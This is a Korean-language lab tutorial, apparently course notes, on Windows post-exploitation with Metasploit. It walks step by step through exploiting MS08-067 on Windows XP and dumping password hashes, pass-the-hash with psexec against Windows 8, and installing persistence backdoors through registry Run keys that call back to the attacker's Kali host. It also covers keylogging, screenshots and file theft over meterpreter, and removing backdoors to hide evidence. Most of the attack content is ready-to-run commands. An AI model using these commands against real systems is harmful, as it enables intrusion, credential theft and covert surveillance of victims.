





# 후속 공격(1)   


### ※ 취약점을 사용하지 않고 해킹하기

### 1. pass the Hash(패스더해시)란?

:  Password에 대한 hash값을 사용하는 환경(NTLM/LM 인증 프로토콜을 사용하는 환경)에서, 획득한 hash 값을 사용하여 인증을 통과하는 공격 (사용자의 실제 Password는 몰라도 됨)

1) Mechanism

- NTLM/LM 인증을 사용하는 서버/서비스는 해시로 암호를 제공
- cleartext 암호는 원격 서버를 전송하기전에 해시로 전환
- 인증을 완료하는데에 Cleartext 암호는 필요하지 않음
- 기능적으로 해시는 원래 암호와 동일

→ Complete network 인증올 완료하는데에는 hash만 있으면 된다. 

2)  Pass-the-Hash 공격 과정

1. 시스템에 침투
2. 시스템의 보호된 자원에 접근할 수 있는 권한 획득
3. 메모리 상에 있는 Password Hash값 수집
4. 새로운 logon session을 생성하여 획득한 hash 값으로 접속

→ LM/NTLM 인증 프로토콜을 사용하는 Network의 특정 시스템에 침투한 후에는, Network에 연결된 다른 시스템에 속한 모든 시스템에도 침투할 수 있다.(보통 사용자는 Password를 플랫폼마다 바꾸지 않음)

우리는 'Pass the Hash' 공격을 하기위해 다음과 같은 모듈을 사용할 것이다.

- Metasploit PsExec

→ PSExec 모듈은 암호학적 개인정보를 이미 알고있는 특정 시스템에 대한 접근을 얻기 위해 침투테스터에 의해 사용된다.

- Metasploit PsExec를 사용하기 위해 필요한 것
1. 타겟 IP
2. 타겟 시스템의 username
3. Password Hash(or Password)
4. Administractive Shares

 

우리는 가상환경에 설치한 winXP, windows 8 에 대한 대다수의 정보 가지고 있다. win xp와 windows 8을 PsExec 모듈을 사용하여 해킹할 것이다.

그렇다면 가장 중요한 Hash 암호는 어떻게 모을 것인가? → 미터프리터 사용

## 2. Meterpreter

winXP의 해쉬 암호를 모을 때 우리는 'Meterpreter' 라는 Payloads를 사용할 것이다.  (미터프리터 내장기능에 pass the hash 공격이 포함되어있다.)

1) 미터프리터란?

:  Metasploit Framework에 포함되어 있는 Payload 중의 하나로, 특별한 기능을 제공한다. Metasploit의 기능을 활용해 대상 시스템을 손상시킬 수 있는 프레임워크의 확장기능이다. 

2) 미터프리터의 특징

- 다양한 후속 공격을 지원, 인메모리 DLL injection stager을 사용
- 디스크를 건드리지 않음

→ 프로세스 인젝션 시 새로운 프로세스 생성하지 않음, 기존에 있는 프로세스에서 실행

- reflective DLL injection 을 사용
- 내장 기능에는 권한 상승, Pass the Hash, 이벤트 로그, 인코그니토, 원격 데스크톱 접근, 패킷 스니핑, 피버팅 등이 있다.

→ 이외에 더 많은 모듈들은 help 명령어를 통해 확인 할 수 있다.

## 3. Pass-the-Hash 공격 실습(WinXP, Windows 8)

### 0) 네트워크 점검

본격적으로 해킹에 들어가기 전에 네트워크 점검부터 해보자

windows 8 과 kali Linux 커맨드 창을 열어 각각의 네트워크 상태(ping test)를 점검한다. 

- windows 8(win xp)에는 kali Linux IP 입력

```
~# ping [kali Linux IP]
```

windows 8


win xp


다음과 같이 kali Linux의 응답이 오면 네트워크 연결이 양호한 것이다.

다른 결과가 나오면 네트워크 상태를 확인하자

→ 각 가상머신의 설정>네트워크>다음에 연결 됨 NAT network 상태인지 확인

→ 제어판> 네트워크 및 인터넷 > 네트워크 및 공유 센터 > 고급 공유 설정에서 아래 사진과 같이 체크 되어 있는지 확인


- kali Linux에 windows 8 IP 입력

```
root@kali:~# ping [windows 8 IP]  
```

windows 8에서 처럼 손실없이 모두 응답이 도착했는지 확인한다.

nmap query 

```
root@kali:~# nmap [window 8 IP]
```


[ port | state | service ]를 통해 sharing과 원격접속에 필요한 포트들이 열린것을 확인할 수 있다.

본격적으로  해킹에 들어가보자

우리는 이미 취약점 분석에서 windows XP 우리 네트워크에서 MS08-067이라는 취약점을 가지고 있다는 것을 확인했다. 그래서 이 시스템을 해킹하고 password hash를 모아보자.

 

### 1) Windows xp 에서 password 수집

 먼저 칼리리눅스의 커맨드 창을 열고 루트계정으로 진입한 다음 metasploit을 실행시키자

```
root@kali ~# msfconsole
```

 우리는 이미 2일차에 했던 nessus 취약점 분석을 통해 윈도우xp가 ms08-067 취약점을 가지고 있다는 것을 이미 알고있다.

```
msf5 > search ms08-067
```

search 명령어를 통해 알아낸 모듈을 use 명령어로 사용한다.

```
msf5 > use exploit/windows/smb/ms08_067_netapi
```


```
> set payload windows/meterpreter/reverse_tcp_allports
> show options
```

meterpreter 실행 후, 옵션창을 켜서 현재 세팅을 확인한다. 


required에 'yes' 라고 적혀있지만 'current settings'에 세팅이 되어있지 않고 비어있는 것들을 설정해주어야한다.

RHOST(공격할 대상의 IP = WinXP의 IP) LHOST(Local HOST = kali의 IP) 를 설정해주자

```
> set RHOST [공격할 대상의 IP]
> set LHOST [Local Host IP]
```


모든 설정을 완료 했으면 실행시켜주자

```
> run
```


XP에 대한 미터프리터 세션이 열렸다.

```
meterpreter > sysinfo
meterpreter > hashdump
```

 sysinfo를 통해 공격 대상에 대한 시스템 정보를 확인할 수 있다.


hashdump를 통해 얻은 hash 값은 text file에 복사하여 desktop에 저장하자! 나중에 또 사용할 것이다.

crtl + shift + c 복사

새 커맨드창을 열고 root 계정 진입 

/home/kali/Desktop/ 경로에 hashXP.txt 파일 생성

```
root@kali ~# nano /home/kali/Desktop/hashXP.txt
```

crtl + shift + v 로 복사한 내용을 붙여넣기 해준다.


crtl + x(나가기),  y(수정된 사항 저장) 누른 후 enter를 누른다. 


바탕화면에 hashXP.txt 파일이 생성 되었고 파일 내부에 복사한 hash password가 저장되어 있다.

### 2) 1에서 얻은 hash를 이용하여 windows 8 해킹

이번에는 앞에서 얻은 hash값을 이용하여 windows 8 에 접근해보고 hashdump를 사용해보자(winXP와 windows8은 같은 네트워크를 공유하고 있기 때문에 이러한 방법이 가능하다.)

nmap을 이용하여 공격을 시도하려는 시스템으 네트워크 상황을 스캔한다.

```
root@kali:~# nmap [공격대상의 IP]
```


445 포트가 열려있는 것을 확인

*445포트는 SMB파일을 공유하는데에 사용 됨

중요한 것은 타겟 시스템에 최소 하나의 파일공유가 있어야 한다. 일반적으로 관리자 폴더들이 공유된다. 그러나 확신할 수 없으니 새로운 타겟의 파일 공유를 찾아보자. 다시 nmap을 이용할 것이다.

```
root@kali: ~# nmap [공격대상의 IP] --script smb-enum-shares.nse
```


자세한 사항들은 알 수 없지만 share가 있다는 것은 알아냈다.

이제 msfconsole interface로 돌아가서 PsExec 모듈(사용할 모듈) 검색

```
msf5 exploit(windows/smb/ms08_067_netapi) > search psexec
```

우리는 모듈 #10을 사용하고 payload를 설정해준다.

```
msf5 exploit(windows/smb/ms08_067_netapi) > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > show options
```



필요한 옵션들을 설정해주자

```
msf5 exploit(windows/smb/psexec) > set RHOST [공격할 대상의 IP]
RHOST => 10.0.2.6
msf5 exploit(windows/smb/psexec) > set LHOST [Kali IP]
LHOST => 10.0.2.200
msf5 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf5 exploit(windows/smb/psexec) > set smbpass [hash값 - 첫번째 줄]
```


보라색 부분을 ctrl + shift + c (복사), ctrl + shift + v(붙여넣기) 를 이용하여 설정해준다

show options 명령을 통해 모든 옵션들이 설정되었는지 확인한 후 실행하자

```
> show options
> run
```


pass the hash  공격에 실패했다 왜 일까? username이 일치하지 않거나 윈도우XP와 윈도우 8의 암호가 같지 않아서 이러한 결과가 나온다. 하지만 낙심할 필요없다. 대부분의 사람들은 플랫폼마다 비밀번호를 통일하는 경향이 있기 때문에 여러번 시도하면 성공할 수 있을 것이다. 

앞으로 나올 실습에서 windows 8에 psecex 모듈을 사용하므로 익스플로잇 가능하도록 windows 8에서 설정을 바꾸자

- windows 8에서 관리자 계정을 활성화하고 암호를 설정하자

windows 8에서 커맨드창을 연다.

c:\Windows\System32 해당경로에 들어가서 cmd.exe를 마우스 우클릭 누른 뒤 관리자 권한으로 실행하자

커맨드 창에 다음 코드를 작성

```
> net user administrator P$sw0rdY
> net user administrator /active:yes
```

'명령을 잘 실행했습니다' 라는 문구가 나오면 활성화가 된 것이다. 

제어판에서 확인해보자

제어판 - 사용자계정 - 다른계정관리 에서 Administrator 계정이 활성화 된 것을 확인 할 수 있다.

이제 암호를 설정하자

Administrator 계정을 더블클릭하면 암호를 변경할 수 있다.

앞으로의 실습에서 자주 입력하게 되므로 입력하기 쉬운 비밀번호를 설정하였다.


이제 모든 설정이 완료 되었다.

```
msf5 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf5 exploit(windows/smb/psexec) > set smbpass [설정한 암호]
```

옵션을 바꾸고 다시 실행시켜보자

```
~# > run
```

성공적으로 익스플로잇이 완료되고 세션이 열린 것을 결과창을 통해 확인 할 수 있다. 

# Post-Exploitation

## 1. 후속 공격(Post-Exploitation)이란?

:  세션이 오픈된 후 일어나는 모든 행동을 일컫는다.

→ exploit을 하고 난 후 정보를 계속해서 모으는 것은 매우 중요하다. 이런 정보들이 다른 시스템을 공격할 때 도움을 줄 수도 있기 때문이다.

### 시스템을 해킹하고 난 후 해야하는 행동

1. persistence ( 시스템에 지속적인 접근 유지)
2. username과 password hashes 를 모은다
3. password cracking
4. 중요한 data 수집

 

따라서 exploit에 성공한 system에 지속적인 접근을 유지하는 것은 매우 중요하다. 

### 1) Persistence

: meterpreter는 Persistence를 이용하여 시스템에 Backdoor를 남기고 지속적으로 드나들 수 있는 통로를 만들 수 있다.

### 실습 1 (run Persistence)

공격할 대상(WinXP), 로컬(Kali) IP 확인

Kali 에서 CMD 창 연 후, root 계정으로 진입

metasploit 실행

```
root@kali ~# msfconsole
```

공격할 대상인 winXP에 취약점 ms08-067을 이용하자

익스플로잇과 페이로드 설정 후 show options 명령어를 통해 필요한 정보 확인

```
msf > search ms08-067
msf > use exploit windows/smb/ms08_067_netapi
msf exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp_allports
msf exploit(windows/smb/ms08_067_netapi) > show options
```


RHOST와 LHOST IP 를 설정해준다.

```
> set RHOST [window XP IP]
> set LHOST [Kali IP]
```

설정을 완료 했으면 실행시켜준다.

```
> run
```


persistence를 실행시키고 -h 명령어를 통해 사용 방법을 알아보자

```
meterpreter > run persistence -h
```


각 옵션에 따라 부팅시, 로그인시 등 다양한 설정이 가능하다.

에이전트에 연결하기 위해 적절한 exploit/multi/handler 자동 시작

우리는 시스템이 부팅시 자동적으로 실행, 연결 시도 간격 10초로 설정한다.

```
meterpreter > run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r [kali IP]
```

이제 persistence method를 사용할 준비가 되었다. 실행시키자!


결과를 살펴보자 첫번째 [+] 를 보면 공격대상의 해당경로에 Persistence Script(back door)가 쓰여있다고 적혀있다.  

윈도우 XP에서 실제로 이 파일이 생성되었는지 확인해보자

c:\WINDOWS\TEMP로 들어간다.


실제로 visual basic script 파일이 생성되었음을 확인할 수 있다.

handler 가 시작되었으며

마지막 [+]를 보면 부팅될 때 back door를 자동으로 실행시키기 위한 install 키가 생성되었다고 나와있다. 실제로 설치가 되었는지 살펴보자

시작(start) > Run > 검색창에 'regedit' 입력 후 enter 



결과창에서 확인할 수 있었던 경로로 접근해보자

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\


yRcLXouIih 파일이 생성된 것을 확인할 수 있다.

value 가 아까 살펴본 backdoor 주소 임을 알 수 있다.

마지막으로 meterpreter 결과창에서 session이 2개가 열린것을 확인할 수 있다

```
meterpreter > background //세션밖으로 나가기
~# > sessions -l //열린 session 정보 확인
~# > sessions -i 2 //session 2로 이동
meterpreter > sysinfo
```


다음 명령어를 통해 세션 밖으로 나가고 현재 열려있는 세션을 확인할 수 있으며, 원하는 세션으로 접속할 수 있다.

공격 대상인 winXP를 종료하면 세션들은 어떻게 될까? winXP를 종료하고 session -l 명령을 이용하여 확인해보자

session들이 모두 닫힌 것을 발견할 수 있을 것이다.

winXP를 다시 키고 sessions 을 확인해보자 새로운 세션3이 열렸다 부팅시 자동적으로 persistence 실행되도록 설정해놓았기 때문이다.

### 실습 2(Remove backdoor)

backdoor는 해킹의 증거가 될 수도 있기 때문에 공격 컴퓨터에서 필요한 정보를 얻은 뒤 반드시 Romove backdoor 과정을 통해 backdoor을 제거해주어야 한다.

[과정]

1. Backdoor script 제거
2. Registry 제거
3. Local file 제거 

1) Backdoor script 제거

처음으로 미터프리터 세션에 있는 backdoor script 를 제거하자

```
meterpreter > rm [backdoor script] //[+]옆에 있는 경로 복사

ex)
meterpreter > rm "C:\WINDOWS\TEMP\URsefP.vbs"
```

2) Registry 제거

```
meterpreter > reg deleteval -k "registry 경로" -v "파일이름" //[+]옆의 경로 복사 

ex) 
meterpreter > reg deleteval -k "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -v "yRcLXouIih"
```

3) Local file 제거

```
ex)
root@kali: cd /root/.msf4/logs/persistence  
root@kali:~/.msf4/logs/persistence rm -rf MINJI-Y560ZLU1S_20200720.0504/
```

Backdoor 제거 완료 

### 실습 3 (windows 8에서 persistence 모듈 실행)

네트워크 상태 확인 및 공격 IP를 확인한 후 메타스플로잇 실행

```
root@kali: ~# msfconsole
```

우리는 psexec 를 사용할 것이다. 

psexec을 검색하여 알맞은 exploit 명령어를 이용하고 payload 도 설정해준다.

```
msf > search psexec
msf > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_tcp_allports
```

옵션을 열고 비어있는 부분을 설정해주자

```
msf5 exploit(windows/smb/psexec) > show options
msf5 exploit(windows/smb/psexec) > set RHOST [공격대상 IP]
msf5 exploit(windows/smb/psexec) > set LHOST [Kali IP]
msf5 exploit(windows/smb/psexec) > set smbuser administrator
msf5 exploit(windows/smb/psexec) > set smbpass [password]
```


모든 설정을 완료 했으면 실행시키자

```
msf5 exploit(windows/smb/psexec) > run
```


이제 우리는 윈도우 8의 미터프리터 세션을 가지게 되었다.
'sysinfo' 명령어를 이용하여 시스템을 확인해보자

```
meterpreter > sysinfo
```

이제 persistence 를 실행시키자 

앞에서 했던 것 처럼 -h 명령어를 통해 다양한 명령어를 확인할 수 있다.

-A handler 자동실행

-X  -p 6666 -r kali IP 시스템이 부팅되자마자 6666 포트 bind

```
meterpreter > run persistence -h
meterpreter > run persistence -A -X -i 10 -p 6666 -r [Kali IP]
```


결과를 확인해보자

persistence script 가 windows 8의 해당경로에 생성되었다고 나와있다.

windows 8 의 해당경로에서 실제로 script 가 생성되었는지 확인해보자

아마 발견할 수 없을 것이다. 

왜일까? 

windows 8 에서 windows defender를 열어보면 실행되고 있는 모습을 확인할 수 있다. windows defender가 스크립트 파일을 감지하고 삭제시켰기 때문이다.


방화벽을 피해 post 모듈과 TheFatRat(악성코드 생성 툴)을 사용하면 windows 8 에서도 백도어를 설치할 수 있다. 툴 설치과정이 매우 복잡하므로 이번 강의에서는 생략하도록 한다.

## 2. Meterpreter Extensions

미터프리터 세션에 다양한 post-exploit session 명령어들이 있다.

포스트 익스플로잇 단계에서 어떤 용도로 사용되는 지에 따라 명령어들이 다음과 같이 분류 된다.

1) Stdapi

- file System
- System
- User Interface

2) Priv

- Elevate
- Password Database
- Timestomp

3) Incongnito

4) Sniffer

5) Core

Stdapi, Priv, Core 는 따로 load 하지 않아도 meterpreter session이 열리면서 자동으로 load 되기 때문에  사용하기 전에 load 해 줄 필요가 없다. 

### Core Extension

→ 미터프리터 세션을 관리하는데 사용

- help : 도움말
- sessinos : 세션 관리
- background :  현재의 미터프리터 세션을 MSF console prompt 로 이동
- migrate : 서버를 다른 프로세스로 옮김
- channel : 활성화된 채널의 목록을 제공하거나 제어(interact, read, wrtie, close)

→ channel 이란 클라이언트와 서버사이에 존재하는 데이터 이동통로를 말한다.

- load | use : meterpreter extension을 load하거나 사용
- run : 미터프리터 스크립트나 post 모듈 실행

sessions 명령어와 background 명령어는 앞에서 이미 사용해보았다.

### Stdapi Extension

1. file system commands

→ 타겟 시스템의 파일 시스템 관리

- cat : 출력창에 파일의 내용물을 출력
- cd / lcd : 폴더 이동
- pwd / lpwd : 현재 디렉토리 출력

→ pwd는 타겟시스템의 lpwd 는 local system의 현재 디렉토리

- upload / download : 파일 또는 디렉토리를 업/ 다운로드
- ls : 파일 목록 출력
- rm : 특정한 파일 제거
- search : 파일 검색

 2. system commands

→ 타겟 시스템에서 실행되는 시스템 관리

- execute : 명령어 실행
- getpid / getuid ": 현재 프로세스의 식별자/서버를 실행시키고 있는 사용자를 얻음
- shell :
- sysinfo : 현재 공격 대상에 대한 정보를 얻는다.
- ps : 실행되고 있는 프로세스 목록 출력
- kill : 현재 프로세스 종료

 3. UI &Webcam commands

→ 웹캠으로부터 keystroke, screenshot, snapshot 얻음

- idletime : 공격대상 pc가 몇 초동안 가동되지 않았는지 출력
- screenshot : 활성화된 데스크탑의 스크린샷 찍음
- record_mc : x초간 기본 마이크를 통해 오디오 녹음
- webcam_list : 웹캠 리스트 나열
- webcam_snap : 웹캡으로부터 스냅샷 가져옴

### 실습 1 (Stdapi Extension - File System)

stdapi extension 중 file system command를 연습해보자

칼리 리눅스에서 root 계정 진입 후 윈도우 XP를 타겟 컴퓨터로 하여 exploit, set payload, run

취약점 ms08-067 사용

```
root@kali:~# msfconsole
msf5 > search ms08-067
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp_allports
msf5 exploit(windows/smb/ms08_067_netapi) > show options
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST [공격대상 IP]
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST [Kali IP]
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

미터프리터 세션이 열렸으면 앞에서 소개한 명령어들을 실행시키며 연습해보자 

```
meterpreter > pwd //타겟 시스템의 현재 디렉토리 출력
meterpreter > lpwd //로컬 시스템의 현재 디렉토리 출력
```

현재 공격대상과 로컬 컴퓨터 디렉토리 위치를 확인할 수 있다.

현재 위치하고 있는 디렉토리는 c\windows\system32 이다. cd 명령어를 이용해 현재 위치를 변경해보자 

```
meterpreter > cd ..
meterpreter > pwd
```

cd .. 명령어를 이용하면 현재 위치하고 있는 디렉토리의 바깥 디렉토리로 이동하게 된다.

WINDOWS 폴더로 이동해보고 현재 위치를 확인해보자


이번에는 mkdir 명령어를 통해 새로운 디렉토리를 만들어보자 

```
meterpreter > mkdir newDir
meterpreper > ls
```

ls 로 파일과 디렉토리 목록을 확인 할 수 있다.

'newDir' 폴더가 생성된 것을 확인 할 수 있다.


새로만든 디렉토리에 칼리에 생성된 hashXP.txt 파일을 업로드 해보자

```
meterpreter > cd newDir
meterpreter > pwd
meterpreter > upload /home/kali/Desktop/hashXP.txt "c:\WINDOWS\\newDir" //hashXP.txt 업로드
meterpreter > ls
```

업로드가 완료 되었으면 ls 명령어를 통해 현재 디렉토리에 파일이 생성되었는지 확인 한다.

```
meterpreter > cat hash.txt //텍스트 파일의 내용 확인
```

다음 명령어를 통해 텍스트 파일의 내용을 확인 할 수 있다.


이번에는 공격대상 pc에 있는 파일을 복사해오자!

다시 c 디렉토리로 이동하여 해당 디렉토리에 있는 파일을 확인하자

우리는 '0.log' 파일을 다운로드 할 것이다.

```
meterpreter > cd ..
meterpreter > ls
meterpreeter > download "c:\WINDOWS\\0.log" /home/kali/Desktop
```

칼리 바탕화면에 다운받은 파일이 생성된 것을 확인할 수 있다.



→ 생성된 파일은 연결되어 있는 것이 아니라 각각 다른 파일로 실행된다 따라서 칼리에 있는 파일에 내용을 작성해도 windows xp 에 있는 파일의 내용에는 변화가 없다.

이번에는 디렉토리를 삭제하는 방법을 알아보자

현재 위치가 c:\WINDOWS 인지 확인하고 난 후 명령어를 이용해 디렉토리를 삭제한다.

```
meterpreter > pwd
meterpreter > ls
meterpreter > rmdir newDir
```


제거가 성공적으로 완료되었다.

### 실습 2 (Stdapi Extension - System & Keyscan )

```
meterpreter > sysinfo
```

현재 실행 중인 시스템에 대한 정보를 얻을 수 있다.

```
meterpreter > idletime //대기시간(유휴시간) 확인
meterpreter > screenshot
```

해당 명령어를 통해 공격대상의 유휴시간을 확인하고 공격대상 pc의 스크린샷을 찍을 수 있다. 

- 루트 폴더 여는 방법

→ 루트 계정으로 진입하지 않은 상태에서 다음 코드 입력

```
~# sudo thunar 
```

루트 폴더가 열렸을 것이다. 캡쳐 화면이 저장되어 있는지 확인하자.

이제 key scan을 시작해보자

keyscan_start 명령어로 시작하고 dump 명령어로 공격대상 pc에서 작성된 텍스트들을 가져올 수 있다.

```
meterpreter > keyscan_start

```

윈도우 xp에서 시작 → 실행(Run) 을 눌러 검색창에 notepad 를 검색하여 연다



메모장안에 내용을 작성한다.


```
meterpreter > keyscan_dump
```


아무 텍스트도 dump 되지않았다. 일단 keyscan을 종료하자

이유가 무엇일까 getuid 명령어를 통해 서버를 실행시키고 있는 사용자를 확인하자 

```
meterpreter > keyscan_stop
meterpreter > getuid
```


window XP의 system user이지만 노트패드에 텍스트를 작성한 사용자는 다르다.

이는 ps 명령어를 통해 확인할 수 있다.


노트패드를 실행시킨 유저로 migrate 명령어를 통해 사용자를 변경해준다.

```
meterpreter > ps
meterpreter > migrate 256
meterpreter > getuid
meterpreter > keyscan_start
```

이제 다시 WinXP의 메모장으로 돌아가서 다른 내용을 작성해보자



```
meterpreter > keyscan_dump
meterpreter > keyscan_stop
```

결과창을 확인해보자!

작성한 텍스트 뿐만 아니라 눌러진 모든 key가 순서대로 출력되었다.(backspace, right shift ..)


